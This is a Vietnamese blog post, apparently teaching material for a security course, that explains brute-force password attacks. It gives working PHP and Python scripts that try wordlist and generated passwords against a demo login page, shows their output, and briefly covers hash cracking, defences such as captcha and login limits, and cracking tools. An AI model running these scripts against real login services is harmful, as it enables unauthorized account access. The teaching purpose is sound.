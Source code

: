 ```yaml
---
layout: post
title: More about brute  force attack
date: 2015-08-23 11:28
categories: CSATT attack
---
```

Hôm trước thầy Tuấn Anh đã nhắc đến phương pháp này, tuy nhiên tôi sẽ làm rõ thêm một số vấn đề, đây không phải là một bài giải cặn kẽ cho các bạn, nó mang tính định hướng nhiều hơn.

## Code sample
Giả sử tôi có trang đăng nhập là [http://tqk.itps.com.vn/demo.php](http://tqk.itps.com.vn/demo.php). Tôi sẽ tiến hành brute mật khẩu của user: test@demo.brute

PHP:
{% highlight php linenos startinline=true %}
<?php
$dic = ['demo', '123', '1234', '123456', 'test', 'demo1', 'demo123', '123demo'];
foreach ($dic as $password) {
    $email = 'test@demo.brute';
    url = 'http://tqk.itps.com.vn/demo.php';
    $data_string = 'email=' .urldecode($email). '&password=' .urlencode($password);
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_POST, 1);
    curl_setopt($ch, CURLOPT_POSTFIELDS, $data_string);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $result = curl_exec($ch);
    curl_close($ch);
    if (strpos($result, 'talent') == false){
        echo " Password: " .$password. " => Wrong password!";
    } else {
        echo "Password: " .$password. " => You got it.";
    }
}
?>
{% endhighlight %}

Run test:

~~~
Password: demo => Wrong password!
Password: 123 => Wrong password!
Password: 1234 => Wrong password!
Password: 123456 => Wrong password!
Password: test => Wrong password!
Password: demo1 => Wrong password!
Password: demo123 => You got it.
Password: 123demo => Wrong password!
~~~
Python:

{% highlight python linenos %}
import requests
pwlist = ['demo', '123', '1234', '123456', 'test', 'demo1', 'demo123', '123demo']
url = 'http://tqk.itps.com.vn/demo.php'
for password in pwlist:
  payload = {'email':'test@demo.brute', 'password':password}
  req = requests.post(url, data=payload)
  if('talent' in req.text):
    print('Password found:', password)
{% endhighlight %}


~~~
Admin@LEOK-PC
$ py demobrute.py
Password found: demo123
~~~
Trên đây tôi đã demo cho các bạn phương pháp brute bằng từ điển - dictionary hay wordlist ( từ điển ở đây chính là array/list tôi đưa vào, thông thường thì lấy từ điển từ file). Tôi sẽ không đi sâu vào code ( nếu như một số bạn không hiểu), mà chủ yếu là để các bạn nhìn ra rằng phương pháp tấn công này được áp dụng như thế nào. Nói thêm rằng thông thường các worldlist sẽ được khởi tao thông qua các thuật toán, pattern để giảm bớt các mật khẩu "vô nghĩa", nhưng không phải luôn luôn như thế.

Việc tấn công có hay không sử dụng từ điển đều được hoạt động trên cùng cơ chế, tức là bạn sẽ phải generate ra các password theo pattern ( bao nhiêu kí tự, thường hay hoa, hay giả sử đã biết kí tự gì đó...v.v..) rồi lần lượt thực hiện việc đăng nhập và dựa vào kết quả trả về để xác định mật khẩu đúng.

Xem ví dụ sau, ở đây tôi sử dụng itertools trong python để generate wordlist:

{% highlight python linenos %}
import requests
import itertools
import time
charset = 'abcdefghijklmnopqrstuvwxyz0123456789'
url = 'http://tqk.itps.com.vn/demo.php'
res = itertools.product(charset, repeat=6)
start_time = time.time()
for i in res:
  password = ''.join(i)
  payload = {'email':'test@demo.brute', 'password':password}
  req = requests.post(url, data=payload)
  print('Trying password: ', password)
  if('talent' in req.text):
    print('Password found:', password)
    print('\nTaken %s seconds to crack very easy password' %time.time() - start_time)
  else:
    print('Failed.....')
{% endhighlight %}

Và khi tôi chạy đoạn code này, với một máy tính "bình dân" của tôi, ước tính phải mất đến hơn 3 năm để có thể duyệt hết được số lượng hơn 2 tỉ mật khẩu đơn giản có độ dài 7 kí tự chỉ bao gồm chữ cái thường và chữ số. ( Ở đây tôi không đề cập đến việc perfomance, multithreading, đường truyền, sử dụng GPU và một số vấn đề khác). Một con số đáng kể.

Đa số các tấn công brute force áp dụng vào các dịch vụ đăng nhập web/server ( via GET/POST) và tấn công vào các mã hóa, hàm băm ( sau này các bạn sẽ được tìm hiểu về hàm băm trong môn CSLT Mật mã), SSH, cùng một số sản phẩm khác.

Tôi sẽ nói qua về việc brute hàm băm (sử dụng thuật toán "một chiều" tức là có mã hóa nhưng không có giải mã), đó là chúng ta sử dụng các bản rõ, nằm trong wordlist, rồi thực hiện mã hóa sau đó so sánh với bãn mã cần crack. Tất nhiên, các mật mã hàm băm vẫn có xác suất trùng lặp, có nghĩa là có thể có 2 bản rõ nhưng cùng một bản mã, tuy nhiên xác suất này rất nhỏ, đủ để người ta chấp nhận được.

Có thể hiểu việc brute giống như các bạn đang thử làm một điều gì đó có phù hợp với tôi hay không, như thử giày, thử công việc, thử người yêu ;))) Đối với mọi đối tượng thì đều có một mục đích chung, chỉ khác mỗi cách thức bạn tiếp cận. Đại khái là như thế đó.

## Protection

Vậy chắc chắn tấn công brute force sẽ phá vỡ tính chất của ATTT của một hệ thống thông tin nếu không có biện pháp khắc phục. Về cơ bản, các máy chủ có nhiều cách để bảo về khỏi các cuộc tấn công đơn giản này bằng cách cấu hình rule cho firewall, hoặc cũng có thể áp dụng ngay trên các ứng dụng đăng nhập, như captcha là một ví dụ điển hình, hay việc giới hạn số lần đăng nhập thất bại trong khoảng thời gian nào đó. Bạn đọc có thể tự tìm hiểu thêm.

## More information

* Trong suốt bài viết tôi không hề muốn sử dụng đến từ "mật khẩu", vì đơn giản, chúng ta đang học một môn chuyên nghành, và tôi nghĩ "mật khẩu" không phải là từ có thể thay thế cho "password".

* Trên bài viết tôi có đề cập đến việc sử dụng code cho việc brute force, tuy nhiên, hiện tại có rất nhiều công cụ mạnh mẽ giúp chúng ta tạo wordlist, crack hash, crack network password có thể kể đến như [John The Ripper](http://www.openwall.com/john/), [Hashcat](http://hashcat.net/oclhashcat/), [Hydra](https://github.com/vanhauser-thc/thc-hydra), [burpsuite](https://portswigger.net/burp/), [cewl](https://digi.ninja/projects/cewl.php)

* Toàn bộ code các bạn có thể xem [tại đây](https://github.com/bytekve/bytekve.github.io/tree/master/codesample).
